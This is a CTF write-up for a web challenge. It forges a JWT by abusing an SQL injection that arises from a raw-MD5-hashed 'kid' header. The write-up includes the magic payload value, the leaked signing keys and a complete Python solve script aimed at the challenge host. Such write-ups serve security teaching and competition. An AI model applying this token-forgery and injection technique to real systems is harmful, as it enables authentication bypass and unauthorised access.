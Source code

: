 ```yaml
---
created: 2024-06-28T20:52
updated: 2024-11-23T20:30
tags:
  - raw-md5
points: 370
solves: 173
---
```


## Analyze
A quick analysis of the network requests tells me that I have to sign my own JWT with the type `conductor` and a different kid.

```json
{
  "alg": "HS256",
  "kid": "passenger_key",
  "typ": "JWT"
}
```

```json
{
  "type": "passenger"
}
```

Using a random key doesn't work.

```
Key isn't passenger or conductor. Please sign your own tickets.
```

### Hint
The message returned has hash in messy unicode, that's peculiar, and it appears that the server is querying based on raw md5, using unsafe string concatenation.

```js
// i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
```

## Solve
We will reference past writeups [^1], and use their payload for md5 exploitation.
The basic idea is that raw md5 of this payload will result in a sql injection like this

```sql
SELECT login FROM admins WHERE password = 'xxx'||'1xxxxxxxx'
```

```python
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
```

We will first modify the header's kid, without changing anything.

```
Sorry passenger, only conductors are allowed right now. Please sign your own tickets. 
hashed ô÷uÞIB♣BçÙ+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e
hashed Rò▲sÜxÉÄ☻Å´↕\ä secret: a_boring_passenger_signing_key_?
```

SQL injection worked and we have our conductor key.

### Solve Script

```python
import requests
import re
import jwt

url = "https://fare-evasion.chal.uiuc.tf/"

response = requests.get(url)
set_cookie = response.headers.get("Set-Cookie")
access_token = re.search(r'access_token=(.*?);', set_cookie).group(1)
decoded_token = jwt.decode(access_token, algorithms=["HS256"], options={"verify_signature": False})
decoded_token['type'] = 'conductor'

# sql inject with raw md5 hash
secret = "a_boring_passenger_signing_key_?"
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
headers = {"Cookie": f"access_token={encoded_token}"}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
conductor_key = re.search(r'secret: (.+)\n', msg).group(1)
# "conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"
encoded_token = jwt.encode(decoded_token, conductor_key, algorithm="HS256", headers={"kid": "conductor_wkey"})
headers = {
    "Cookie": f"access_token={encoded_token}"
}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
# Conductor override success. uiuctf{sigpwny_does_not_condone_turnstile_hopping!}
```

[^1]: [SQL injection with raw MD5 hashes (Leet More CTF 2010 injection 300) - Christian von Kleist (posthaven.com)](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)
